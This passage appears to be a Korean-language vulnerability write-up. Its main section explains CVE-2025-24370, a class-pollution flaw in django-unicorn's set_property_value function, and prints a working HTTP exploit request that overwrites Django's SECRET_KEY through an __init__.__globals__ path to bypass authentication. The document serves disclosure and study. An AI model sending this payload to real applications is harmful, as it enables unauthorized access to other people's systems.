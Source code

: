 > https://security.snyk.io/vuln/SNYK-PYTHON-MESOP-9669339
> 
> 
> https://github.com/mesop-dev/mesop/commit/748e20d4a363d89b841d62213f5b0c6b4bed788f#diff-883b9c6a73562bf9cb21027f4afb7c018f0490c04467a69281a53758724dd71e
> 

---

### 2. **django-unicorn & CVE-2025-24370, CWE-915**

---

- **Program : django-unicorn**
- **Reported ID :** **CVE-2025-24370, CWE-915**
- **Severity : Critical (9.3)**
- **Bounty : N/A**

Django-Unicorn은 Django를 위한 full-stack 프레임워크로, 템플릿에 최신 반응형 컴포넌트 기능을 추가합니다. Django-Unicorn의 0.62.0 이전 버전에서,  set_property_value 함수는 class Pollution에취약했습니다. 

```jsx
def set_property_value(
    component,
    property_name,
    property_value
) -> None:
    ...
    property_name_parts = property_name.split(".")
    component_or_field = component
    ...
```

set_property_value 함수는 외부에서 속성 값을 수정하는 기능을 제공하는데, 경로를 점으로 구분하여 객체의 속성에 접근할 수 있습니다. 사용자가 적절한 컴포넌트 요청을 작성하고 취약한 함수에 두 번째
(property_name) 및 세 번째 (property_value)매개변수 값을 입력하여 원격으로 트리거할 수 있으며, 이로 인해 Python 런타임 상태가 임의로 변경됩니다. 해당 취약점의 악용 방법이 최소 다섯 가지 이상 포착되었으며, 대부분의 Django-Unicorn 기반 애플리케이션에서 XSS, DoS, 인증 우회 공격으로 이어질 수 있습니다. 

다음은 overwriting a secret key를 통해 인증 우회 공격을 수행할 수 있는 코드입니다. 

```jsx
POST /unicorn/message/todo HTTP/1.1

{
  "id": 123,
  "actionQueue": [
    {
      "type": "syncInput",
      "payload": {
        "name": "__init__.__globals__.sys.modules.django.template.backends.django.settings.SECRET_KEY",
        "value": "test"
      }
    }
  ],
  "data": {
    "task": "",
    "tasks": []
  },
  "epoch": "123",
  "checksum": "XXX"
}
```
